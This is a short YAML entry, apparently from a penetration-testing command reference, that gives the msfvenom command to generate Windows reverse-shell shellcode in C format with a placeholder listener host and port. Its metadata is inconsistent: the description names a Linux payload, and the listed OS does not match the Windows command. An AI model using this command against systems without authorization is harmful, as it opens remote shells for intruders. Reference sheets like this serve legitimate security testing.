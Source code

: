 ```yaml
---
description: |
  Metasploit way to generate a reverse shell.

  Command Reference:

    Payload: The payload to generate, such as "linux/x64/shell_reverse_tcp"

    Listening Host: Your machine, used to listen for incoming connections

    Listening Port: Port on which you are listening for connections

    Format: (-f) Executable format, c in this case, which stands for C-language

    Architecture: x86 (32-bit) in this case

    Bad chars: The Bad characters (only the null byte in this case, which is always a bad char)

command: |
  msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> EXITFUNC=thread -f c -a x86 -b "\x00"
  
items:
  - Shell
  
target: |
  - Linux_target
  - MacOS_target
  - Windows_target
  
OS:
  - Linux
  - MacOS
  
environment: |
  - Networking
  - Local
  
command_types:
  - Exploitation
  - Reverse_Shell
  
references:

---
```


